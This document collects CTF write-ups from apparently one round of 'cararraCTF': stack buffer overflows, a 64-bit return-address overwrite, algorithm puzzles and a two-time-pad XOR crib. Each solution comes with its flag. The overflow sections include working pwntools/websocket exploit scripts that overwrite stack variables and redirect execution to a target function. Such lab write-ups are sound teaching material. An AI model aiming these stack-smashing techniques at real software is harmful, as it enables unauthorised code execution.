💡 The queries use `1` based indexing.

</aside>

## overflow

Binary Exploitation (30 points)

### Problem

Just overflow the buffer! Shouldn't be too hard... Connect to the challenge with the command `websocat ws://cararra-ctf-files.herokuapp.com/r4/overflow -E`.

Relevant links: [overflow](https://cararra-ctf-files.herokuapp.com/r4/overflow), [overflow.c](https://cararra-ctf-files.herokuapp.com/r4/overflow.c)

### Writeup

Just connect and send a very long string :). 



And we get a flag of `cararraCTF{v3RY_ez_overfl0w}`.

If you wanted to do a more careful analysis, you could look at the assembly using the command `objdump -D overflow | less`.



Scrolling down to main by typing `/main`, 



We can see that overflow_me is at -4(%rbp) and that buf is at -176(%rbp), meaning that the minimum number of characters we need to print is 173.

We can send that many characters with the command `python -c "print('a'*173)" | websocat ws://cararra-ctf-files.herokuapp.com/r4/overflow`.



## stack-attack

Binary Exploitation (100 points)

### Problem

We now know you can overflow randomly, but do you have the finesses to do what you want with the stack? Connect to the challenge with the command websocat ws://cararra-ctf-files.herokuapp.com/r4/stack-attack -E.

Relevant links: [stack-attack](https://cararra-ctf-files.herokuapp.com/r4/stack-attack), [stack-attack.c](https://cararra-ctf-files.herokuapp.com/r4/stack-attack.c)

### Writeup

We know the drill, so lets run `objdump -D stack-attack | less`.



We can see that buf starts at -0xe0(%rbp), and the 3 overflow variables start at -0xc(%rbp). Converting from hex to decimal, we see that 0xe0 - 0xc = 212, meaning we need to pad with 212 random characters then insert what we want. So, we can send the following payload: 

```python
from pwn import *

import asyncio
import websockets

async def solve():
    uri = "ws://cararra-ctf-files.herokuapp.com/r4/stack-attack"
    async with websockets.connect(uri) as websocket:
        print(f"< {await websocket.recv()}")
        await websocket.send(b'a'*212 + p32(0xdecafc0f) + p32(0xf00dd00d) + p32(0xdeadbeef) + b'\n')
        print(f"Sent payload")
        print(f"< {await websocket.recv()}")

asyncio.get_event_loop().run_until_complete(solve())
```

Running the code, we get our flag is `cararraCTF{y0Ur3_4_st@cK_SMASHer_n0w!}`.

## overlapping-squares-1

Algorithms (175 points)

### Problem

Given N rectangles, find the total area of their union mod 10^9+7. The test case gives N on the first line, followed by N lines each with 4 numbers specifying a rectangle: X_1, Y_1, X_2, Y_2. (X_1, Y_1) gives the bottom left corner, (X_2, Y_2) gives the top right. Enter your answer in flag format: if your answer is 50, enter the flag cararraCTF{50}. (Note: there will be another problem in the future with N=1000000, so if you want to code that solution directly go ahead).

### Writeup

We can basically do double sweep line as described here: [https://stackoverflow.com/questions/40622016/efficient-way-to-find-overlapping-of-n-rectangles/40673354](https://stackoverflow.com/questions/40622016/efficient-way-to-find-overlapping-of-n-rectangles/40673354).

Here is the code:

```cpp
#include <iostream>
#include <fstream>
#include <vector>
#include <algorithm>

using namespace std;

ifstream fin("overlapping-squares-1.txt");

typedef pair<int,int> pii;

struct rect {
  int x1, y1, x2, y2;
};
struct p {
  int x, rect;
  bool end;
};

int n;
rect rects[1000001];
p endpoints[2000001];

bool sortByX(p a, p b) {
  return a.x < b.x;
}

int main() {
  fin >> n;

  for (int i = 0; i < n; i++) {
    fin >> rects[i].x1 >> rects[i].y1 >> rects[i].x2 >> rects[i].y2;
    endpoints[2*i] = {rects[i].x1, i, false};
    endpoints[2*i+1] = {rects[i].x2, i, true};
  }

  sort(endpoints, endpoints+2*n, sortByX);

  vector<pii> startends;
  int ans = 0;
  for (int i = 0; i < 2*n; i++) {
    p curr = endpoints[i];
    pii seg = pii(rects[curr.rect].y1, rects[curr.rect].y2);
    vector<pii>::iterator loc_start = lower_bound(startends.begin(), startends.end(), pii(seg.first, 1));
    if (curr.end) {
      startends.erase(loc_start);
      vector<pii>::iterator loc_end = lower_bound(startends.begin(), startends.end(), pii(seg.second, -1));
      startends.erase(loc_end);
    } else {
      startends.insert(loc_start, {seg.first, 1});
      vector<pii>::iterator loc_end = lower_bound(startends.begin(), 
      startends.end(), pii(seg.second, -1));
      startends.insert(loc_end, {seg.second, -1});
    }
    int active = 0;
    int start_active = -1;
    int tot = 0;
    for (pii pi : startends) {
      if (active == 0) {
        start_active = pi.first;
      }
      active += pi.second;
      if (active == 0) {
        tot += pi.first - start_active;
      }
    }
    if (i < 2*n-1) {
      ans += tot * (endpoints[i+1].x - endpoints[i].x);
      ans %= 1000000007;
    }
  }
  cout << ans << endl;
}
```

Running the code, we get an answer `579584858` and a flag of `cararraCTF{579584858}`.

## rip-the-rip

Binary Exploitation (150 points)

### Problem

What's the point of a function if no one calls it? Connect to the challenge with the command `websocat ws://cararra-ctf-files.herokuapp.com/r4/rip-the-rip -E`.

Relevant links: [rip-the-rip](https://cararra-ctf-files.herokuapp.com/r4/rip-the-rip), [rip-the-rip.c](https://cararra-ctf-files.herokuapp.com/r4/rip-the-rip.c)

### Writeup

This is a common "override the return address" problem, although this binary is 64-bit. Objdumping it, we can see that the array starts at -0xc0(%rbp).



Since the return address pointer is stored above the previous rbp, which is stored right above %rbp, we basically need to add 0xc0 bytes of garbage plus an addition 8 bytes to skip over the old rbp and start overriding the return address.

Once we do that, we can set the return address to the address of print_flag, and we got our payload:

```python
from pwn import *

import asyncio
import websockets

async def solve():
    uri = "ws://cararra-ctf-files.herokuapp.com/r4/rip-the-rip"
    async with websockets.connect(uri) as websocket:
        print(f"< {await websocket.recv()}")
        await websocket.send(b'a'*200 + p64(0x401172) + b'\n')
        print(f"Sent payload")
        print(f"< {await websocket.recv()}")
        print(f"< {await websocket.recv()}")

asyncio.get_event_loop().run_until_complete(solve())
```

Running the code, we get our flag is `cararraCTF{j0n_Th3_R1PP3r_1n_da_hOusE?}`.

## multiple-sums

Algorithms (75 points)

### Problem

Given N distinct numbers, find the number of (unordered) pairs that sum to a multiple of M mod 10^9+7. The test case gives N and M on the first line followed by N numbers, each on a new line. Enter your answer in flag format: if your answer is 50, enter the flag cararraCTF{50}.

Relevant links: [multiple-sums.txt](https://cararra-ctf-files.herokuapp.com/r4/multiple-sums.txt)

### Writeup

This is a modular arithmetic problem, and we know that the only way to get a multiple of M is to sum something   with something .

So, we can proceed by counting how many numbers are in each residue class, then count how many ways we can pair them up. We only have to be careful in the cases of 0 and M/2, since .

Here is the code:

```python
f = open('multiple-sums.txt')

n, m = map(int, f.readline().split())

nums = [int(f.readline()) for i in range(n)]

mods = [0] * m

for i in nums:
    mods[i % m] += 1

tot = 0
mod = 10**9 + 7

for i in range(m//2+1):
    other = (m-i)%m
    if i == other:
        tot += mods[i] * (mods[i] - 1) // 2
        tot %= mod
    else:
        tot += mods[i] * mods[other]
        tot %= mod

print(tot)
```

Running the code, we get an answer of `457454363` and a flag of `cararraCTF{457454363}`.

### Additional Solutions

Java Modular Arithmetic (by kp#0649)

```java
import java.util.*; 
import java.io.*; 

public class multiplesums {
    public static void main(String[] args) throws IOException {
        BufferedReader br = new BufferedReader(new FileReader("multiple-sums.txt")); 
        StringTokenizer st = new StringTokenizer(br.readLine());
        int n = Integer.parseInt(st.nextToken());
        int m = Integer.parseInt(st.nextToken());
        int[] nums = new int[n];
        for (int i = 0; i<n; i++) {
            nums[i] = Integer.parseInt(br.readLine());
        }
        br.close();
        int[] cnt = new int[m]; 
        for (int i: nums) {
            cnt[i%m]++; 
        }
        long ans = 0; 
        int mod = (int) 1e9+7;
        for (int i = 0; i<m/2+1; i++) {
            int x = cnt[i];
            int y = cnt[(m-i)%m]; 
            if (i == (m-i)%m) {
                ans += x*(x-1)/2; 
            }
            else {
                ans += x*y; 
            }
            ans %= mod;
        }
        System.out.println(ans);
    }
}
```

## fifty-pointer

Algorithms (100 points)

### Problem

Why use two pointers when you can use 50? Find the sum of the elements common to all 50 arrays. The test case gives N, the number of arrays, and the remaining lines give L_i, the length of array i, followed by its content on the next line. Enter your answer in flag format: if your answer is 50, enter the flag cararraCTF{50}.

Relevant links: [fifty-pointer.txt](https://cararra-ctf-files.herokuapp.com/r4/fifty-pointer.txt)

### Writeup

The strategy for this problem is sort all the arrays, then maintain pointers for all 50. We then go through and increment the one that points to the smallest element, adding the element to our answer if all the pointers point to the same thing.

This algorithm has a runtime of O(N^2L), where L is the average length of the arrays.

Here is the code:

```python
f = open('fifty-pointer.txt')

n = int(f.readline())

arrs = [None] * n
pointers = [0] * n

for i in range(n):
    f.readline()
    arrs[i] = [int(c) for c in f.readline().split()]
    arrs[i].sort()

ans = []
while all(pointers[i] < len(arrs[i]) for i in range(n)):
    if all(arrs[i][pointers[i]] == arrs[0][pointers[0]] for i in range(n)):
        ans.append(arrs[0][pointers[0]])
    ind = 0
    for i in range(1, n):
        if arrs[i][pointers[i]] < arrs[ind][pointers[ind]]:
            ind = i

    pointers[ind] += 1

print(sum(ans))
```

Running the code, we get an answer of `102831` and a flag of `cararraCTF{102831}`.

### Additional Solutions

Java HashSets (by kp#0649)

```java
import java.util.*; 
import java.io.*;

public class fiftypointer {
    public static void main(String[] args) throws IOException {
        BufferedReader br = new BufferedReader(new FileReader("fifty-pointer.txt"));
        StringTokenizer st; 
        int n = Integer.parseInt(br.readLine());
        HashSet<Integer>[] nums = new HashSet[n];
        HashSet<Integer> ans = new HashSet<>();
        for (int i = 0; i<n; i++) {
            if (i == 1) ans = nums[0];
            nums[i] = new HashSet<>(); 
            int j = Integer.parseInt(br.readLine());
            st = new StringTokenizer(br.readLine());
            for (int k = 0; k<j; k++) {
                nums[i].add(Integer.parseInt(st.nextToken())); 
            }
            ans.retainAll(nums[i]);
        }
        br.close();
        int sum = 0;
        for (int i: ans) {
            sum += i;
        }
        System.out.println(sum);
    }
}
```

## ttp

Cryptography (150 points)

### Problem

What's wrong with two time pad???

Relevant links: [ttp.txt](https://cararra-ctf-files.herokuapp.com/r4/ttp.txt), [ttp.py](https://cararra-ctf-files.herokuapp.com/r4/ttp.py)

### Writeup

The main problem with OTP is that if you encrypt different messages, it's fairly easy to get  — just compute . In this case, it is especially problematic since we know the "padding", which means that we can XOR 'a' with  to get the flag.

We can do so with [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Hex','string':'b16bc487c349590b56c358c3e86011fb9a7679199fcdd5c36b7db26c70d920d8ffdbe4b4385fbaa08b2589b445d3c41ef876eb1bba70636aeb518e97e6caddbd'%7D,'Standard',false)XOR(%7B'option':'UTF8','string':'a'%7D,'Standard',false)&input=YjM2YmQ3ODdkMDVhNTkyOTYzZTQ0MmRhYzY1MzJmZWE4OTI3NDgzZDhjZDhkZDkxNzk0MzgxNTI1NGU4NjBmOGUzYzhlNGE3MmI1Zjk4OTVhYzNmOTA5YTc2ZWRkNTBkYTk0N2NmMDhhZjc4MzE3OGQ1NjJiMGIzZDc4YWZmYTE): 



And we got our flag is `cararraCTF{xOR_pr0PErti3s_R_EP!C}`!

## overlapping-squares-2

Algorithms (300 points)

### Problem

Given N rectangles, find the total area of their union mod 10^9+7. The test case gives N on the first line, followed by N lines each with 4 numbers specifying a rectangle: X_1, Y_1, X_2, Y_2. (X_1, Y_1) gives the bottom left corner, (X_2, Y_2) gives the top right. Enter your answer in flag format: if your answer is 50, enter the flag cararraCTF{50}.

### Writeup

This problem needs a lazy seg tree for this to work. Here is a blog post about how this works: [https://robert1003.github.io/2020/02/10/sweep-line-and-segment-tree.html](https://robert1003.github.io/2020/02/10/sweep-line-and-segment-tree.html)

Here is the code:

```python
#include <iostream>
#include <fstream>
#include <vector>
#include <set>
#include <map>
#include <algorithm>

#define N 1000001
#define MOD 1000000007

using namespace std;

ifstream fin("overlapping-squares-2.txt");

typedef long long ll;
typedef pair<ll,ll> pii;

struct rect {
  ll x1, y1, x2, y2;
};
struct p {
  ll x, rect, end;
};
bool sortByX(p a, p b) {
  return a.x < b.x;
}

ll n;
rect rects[N];

p endpoints[2*N];
set<ll> ycoords;
map<ll, ll> ind;
ll rev[4*N];

ll segtree[4*N];
ll lazy[4*N];

void update(ll curr, ll l, ll r, ll start, ll end, ll value) {
  ll mid = (r + l)/2;
  if (end < l || start > r) {
    return;
  }
  if (start <= l && end >= r) {
    lazy[curr] += value;
    lazy[curr] %= MOD;
  } else if (l != r) {
    update(2*curr + 1, l, mid, start, end, value);
    update(2*curr + 2, mid + 1, r, start, end, value);
  }
  if (lazy[curr] > 0) {
    segtree[curr] = rev[r+1] - rev[l];
  } else {
    segtree[curr] = (l == r ? 0 : segtree[2*curr + 1] + segtree[2*curr + 2]);
    segtree[curr] %= MOD;
  }
}

ll sum() {
  return segtree[0];
}

int main() {
  fin >> n;

  for (int i = 0; i < n; i++) {
    cout << "hi" << endl;
    fin >> rects[i].x1 >> rects[i].y1 >> rects[i].x2 >> rects[i].y2;
    endpoints[2*i] = {rects[i].x1, i, 1};
    endpoints[2*i+1] = {rects[i].x2, i, -1};

    ycoords.insert(rects[i].y1);
    ycoords.insert(rects[i].y2);
  }
  sort(endpoints, endpoints+2*n, sortByX);

  int j = 0;
  for (int i : ycoords) {
    ind[i] = j;
    rev[j] = i;
    j++;
  }
  int ans = 0;
  for (int i = 0; i < 2*n; i++) {
    if (i > 0) {
      ans += sum() * (endpoints[i].x - endpoints[i-1].x);
      ans %= MOD;
    }
    p curr = endpoints[i];
    rect r = rects[curr.rect];
    update(0, 0, 2*n, ind[r.y1], ind[r.y2]-1, curr.end);
  }
  cout << ans << endl;
}
```

Running the code, we get an answer of `906082847` and a flag of `cararraCTF{906082847}`.
